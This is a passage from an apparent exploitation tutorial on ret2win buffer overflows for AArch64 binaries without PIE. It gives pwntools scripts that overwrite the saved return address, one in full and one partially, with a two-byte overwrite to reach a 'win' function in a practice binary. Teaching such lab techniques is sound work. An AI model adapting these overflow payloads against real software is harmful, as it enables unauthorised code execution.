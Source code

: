 ## No PIE

### Regular

Get the address of the **`win`** function:

```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```
```
Exploit:

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)
# Optional but nice for AArch64
context.arch = 'aarch64'

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
```
![[../../../images/image (1211).png]]


### Off-by-1

Actually this is going to by more like a off-by-2 in the stored PC in the stack. Instead of overwriting all the return address we are going to overwrite **only the last 2 bytes** with `0x06c4`.

```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
```
![[../../../images/image (1212).png]]
```